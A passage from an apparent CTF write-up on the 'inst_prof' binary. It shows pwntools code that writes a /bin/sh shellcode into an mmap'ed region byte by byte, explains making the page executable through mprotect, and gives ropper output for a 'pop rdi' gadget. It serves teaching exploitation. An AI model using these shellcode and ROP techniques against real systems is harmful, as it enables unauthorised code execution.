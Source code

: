 That being said, we can just put shellcode to the `mmap`'ed region byte by byte:
```python
info('Receiving second HELLO: %s' % p.recvuntil('initializing prof...ready\n'))

payload = shellcraft.amd64.sh()
shellcode_bytes = map(ord, asm(payload, os='linux', arch='amd64'))

send_instr('mov r14, r15')  # make a copy of begining of mmap'ed memory region address for later use
for byte in shellcode_bytes:
    send_instr('mov BYTE PTR [r15], %d' % byte)     # put shellcode byte
    send_instr('inc r15')                           # advance to next memory cell
```

Then we have to make our page executable. To do so, we can use `make_page_executable` function which uses `mprotect` syscall:

![make_page_executable function](/assets/writeups/inst_prof_pwn/ida_make_page_executable.png){: .center-image }

The `mprotect` function's declaration in C language is `int mprotect(void *addr, size_t len, int prot);`. We can pass `addr` pointer in RDI register as RDI is used for passing the first argument to syscalls on x86-64 binaries (see [x86-64 syscall table](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)). In order to do that we can look for `pop rdi` gadget using e.g. [ropper](https://github.com/sashs/Ropper):

```
$ ropper --file inst_prof --console
[INFO] Load gadgets from cache
[LOAD] removing double gadgets... 100%
(inst_prof/ELF/x86_64)> search pop rdi%
[INFO] Searching for gadgets: pop rdi%

[INFO] File: inst_prof
0x0000000000000bc3: pop rdi; ret;
```
